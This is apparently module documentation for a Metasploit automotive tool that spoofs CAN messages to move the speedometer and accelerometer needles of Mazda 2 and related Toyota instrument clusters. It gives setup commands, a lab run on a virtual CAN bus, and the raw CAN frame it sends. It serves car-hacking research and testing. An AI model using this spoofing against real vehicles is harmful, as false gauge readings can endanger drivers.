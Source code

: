 ## Introduction

mazda_ic_mover or Mazda 2 Instrument Cluster Accelorometer Mover sends CAN message to move the needle of the accelorometer and speedometer of the Mazda 2 instrument cluster. This works specifically for for Mazda 2 1.5 Skyactiv, Mazda Demio, Mazda 2 Demio, Scion iA, Toyota Yaris, Toyota Yaris R and Toyota Yaris iA.

This [research](https://twitter.com/rootconph/status/1171333590161879040) was done by Jay Turla of ROOTCON's Car Hacking Village.

## Verification Steps

Fire up virtual CAN bus:

1. `sudo modprobe can`
2. `sudo modprobe vcan`
3. `sudo ip link add dev vcan0 type vcan`
4. `sudo ip link set up vcan0`

You could also use Craig Smith's [Virtual Instrument Cluster Simulator](https://github.com/zombieCraig/ICSim).

Launch msf:

5. Start `msfconsole`
6. `use auxiliary/server/local_hwbridge`
7. `set uripath testbus`
8. `run`
9. `use auxiliary/client/hwbridge/connect`
10. `set targeturi testbus`

## Options

**CANBUS**
CAN Bus to perform scan on, defaults to connected bus

## Scenarios
A successful spoofing of an instrument cluster on a target vehicle:

```
msf5 auxiliary(client/hwbridge/connect) > run
[*] Running module against 127.0.0.1

[*] Attempting to connect to 127.0.0.1...
[*] Hardware bridge interface session 2 opened (127.0.0.1 -> 127.0.0.1) at 2019-09-11 04:59:40 -0700
[+] HWBridge session established
[*] HW Specialty: {"automotive"=>true}  Capabilities: {"can"=>true, "custom_methods"=>true}
[!] NOTICE:  You are about to leave the matrix.  All actions performed on this hardware bridge
[!]          could have real world consequences.  Use this module in a controlled testing
[!]          environment and with equipment you are authorized to perform testing on.
[*] Auxiliary module execution completed
msf5 auxiliary(client/hwbridge/connect) > sessions

Active sessions
===============

  Id  Name  Type                   Information  Connection
  --  ----  ----                   -----------  ----------
  2         hwbridge cmd/hardware  automotive   127.0.0.1 -> 127.0.0.1 (127.0.0.1)

msf5 auxiliary(client/hwbridge/connect) > sessions -i 2
[*] Starting interaction with 2...

hwbridge > run post/hardware/automotive/mazda_ic_mover CANBUS=vcan0

[*] Moving the accelorometer and speedometer...
hwbridge > run post/hardware/automotive/mazda_ic_mover CANBUS=vcan0

[*] Moving the accelorometer and speedometer...
hwbridge > run post/hardware/automotive/mazda_ic_mover CANBUS=vcan0

[*] Moving the accelorometer and speedometer...
hwbridge > run post/hardware/automotive/mazda_ic_mover CANBUS=vcan0

[*] Moving the accelorometer and speedometer...
hwbridge > run post/hardware/automotive/mazda_ic_mover CANBUS=vcan0

[*] Moving the accelorometer and speedometer...
```

You can use candump to verify the CAN messages being sent:

```
jjt@ubuntu:~/pentot/ICSim$ candump -c vcan0
  vcan0  202   [8]  60 01 60 60 60 60 60 00
  vcan0  202   [8]  60 01 60 60 60 60 60 00
  vcan0  202   [8]  60 01 60 60 60 60 60 00
  vcan0  202   [8]  60 01 60 60 60 60 60 00
```
